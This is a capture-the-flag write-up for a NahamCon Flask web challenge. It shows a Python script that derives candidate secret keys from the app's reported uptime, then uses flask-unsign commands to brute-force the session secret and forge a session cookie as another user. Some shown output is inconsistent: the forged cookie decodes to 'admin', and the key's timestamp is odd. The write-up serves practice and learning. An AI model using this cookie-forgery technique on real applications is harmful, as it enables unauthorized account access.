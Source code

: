 ## Title

Thomas DEVerson

## Description

Author: @Jstith

All things considered, I'm impressed this website is still up and running 200 years later. 

## Solution

The tech running is python: Werkzeug/3.0.3 Python/3.8.10

THe web app has three functionalities:
- messages: which gives the message - `Hey there Federalist... keep out of our buisness!`
- status: which seems like the output of a command
- main page: that has a login form with only the username being requested:

In the website there is a hidden link: 

![Alt text](image.png)

The backup endpoint reveals the valid users and the app secret:

![Alt text](image-1.png)

Trying the users we get the following error message in the cookie.

We get the following:

![Alt text](image-2.png)

However, if we can spoof the JWt token we might get a valid session.
But there is a problem, the secret_key uses the time when the app starts.

```py
c = datetime.now()
f = c.strftime( "%Y%m%d%H%M" )
app.secret_key = f 'THE_REYNOLDS_PAMPHLET-{f}'
```
The developers of this challenge give us the boot time in the endpoint: `GET /status`

![Alt text](image-3.png)

We can just make a script to get multiple times(in this case 1000 minutes before and 1000 minutes after) of /status endpoint information and try to generate a valid secret_key that can sign the JWT tokens.

Here is the script:

```py
import requests, subprocess, re
from datetime import datetime, timedelta

BASE = 'http://challenge.nahamcon.com:32692/'

# calc uptime
r = requests.get(BASE + "status").text
#print(r)
match = re.search(r"(\d+)\s+days?\s+(\d+)\s+hours?\s+(\d+)\s+minutes?", r)
days = int(match.group(1))
hours = int(match.group(2))
minutes = int(match.group(3))
uptime = datetime.now() - timedelta(days=days, hours=hours, minutes=minutes)
#print(uptime)

for d in range(-1000,1000):
    cand = uptime + timedelta(minutes=d)
    print('THE_REYNOLDS_PAMPHLET-' + cand.strftime("%Y%m%d%H%M"))

```

We can then: `python3 times.py > times.txt`

Use flask-unsign to brute force: `flask-unsign -c ".eyJuYW1lIjoiZ3Vlc3QifQ.ZlNfUg.bWY3m_QeXcDUX-l8UVOUXnkXQgM" --unsign --wordlist times.txt --no-literal-eval`-

After some time we get a valid secret token then we can just change the default cookie:
`flask-unsign -d -c "eyJuYW1lIjoiZ3Vlc3QifQ.ZlEpnQ.33Au_c9XeallX2HjDX_rJ7yOOjc"` -> `{'name': 'guest'}`
`flask-unsign --sign --secret THE_REYNOLDS_PAMPHLET-179708250845 --cookie "{'name': 'Jefferson'}"` -> `eyJuYW1lIjoiYWRtaW4ifQ.ZlEq1A.MfNd_XpYhjvue5aVueotFe74vm8`
